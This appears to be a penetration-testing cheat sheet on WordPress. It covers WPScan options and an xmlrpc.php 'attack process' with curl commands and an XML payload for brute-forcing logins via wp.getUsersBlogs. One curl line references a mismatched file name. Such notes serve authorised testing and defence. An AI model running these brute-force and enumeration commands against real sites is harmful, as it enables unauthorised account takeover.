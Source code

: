 # wpscan
**WPScan** is a widely-used open-source security scanner specifically designed to detect vulnerabilities in WordPress websites.
- `--url `: Specifies the URL of the WordPress website you want to scan.
- `--enumerate`: Enumerates vulnerable plugins (`vp`), users (`u`), themes (`t`), and timthumbs (`p`).
- `--plugins-detection mixed`: Specifies the plugin detection mode. In this case, it's set to "mixed," which includes both passive and aggressive detection methods.
- `--passwords`: Specifies a file containing a list of passwords to use for brute force attacks.
- `--usernames`: Specifies a file containing username to use for brute force attacks.
- `--exclude-content-length`: Excludes the Content-Length header from requests.
- `--proxy`: Specifies a proxy to use for the scan.
- `--random-agent`: Uses a random User-Agent for each request.
- `--verbose`: Increases the verbosity level of the output, providing more detailed information about the scan process.
## Basic usage
```bash
wpscan --url <url>
```
## Other options
```bash
wpscan --enumerate vp,u,t,p \
       --plugins-detection mixed \
       --passwords /path/to/passwords.txt \
       --usernames /path/to/usernames.txt \
       --exclude-content-length \
       --proxy http://proxy.example.com:8080 \
       --random-agent \
       --verbose
```

# xmlrpc.php
**xmlrpc.php** is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism.

#### Risks of xmlrpc.php

1. **Brute Force Attacks**: Attackers can automate login attempts via XML-RPC, bypassing traditional login protections.
2. **DDoS Attacks**: Attackers can exploit XML-RPC to send multiple requests, overloading the server or launching amplified DDoS attacks.
3. **Pingback Amplification**: Malicious pingback requests can be used to reflect traffic to other sites, creating a DDoS attack.
4. **Vulnerabilities**: Older WordPress versions may have exploitable bugs in `xmlrpc.php`, enabling remote code execution (RCE) or other attacks.

### Attack process
Check if `xmlrpc.php` exists and is active on the target site. Create an XML file named `list_methods.xml` with the following content:

```bash
<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```

Use `curl` to send the XML file as a POST request:

```bash
curl -X POST -H "Content-Type: application/xml" --data @rev http://<target_ip>/xmlrpc.php
```

If the file is active, the response will list all supported methods, such as:

- `getUsersBlogs`
- `wp.getCategories`
- `system.multicall`
- `pingback.ping`

Next, create a file named `bruteforce.xml`:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

Send the payload using `curl`:

```bash
curl -X POST -H "Content-Type: application/xml" --data @bruteforce.xml http://<target_ip>/xmlrpc.php
```

If the response contains valid blog information, the credentials are correct. Automate this process for multiple attempts with tools like `wpscan` or custom scripts.

#### Using WPScan

WPScan simplifies brute force attacks and XML-RPC vulnerability scans.

```bash
wpscan --url http://<target_ip>/ --enumerate u,vp,t --random-agent --passwords /path/to/passwords.txt --usernames /path/to/usernames.txt
```

#### Using Custom Scripts

For fine-grained control, use custom scripts like [kill-xmlrpc](https://github.com/R-kill-9/kill-xmlrpc) to automate brute force or exploitation.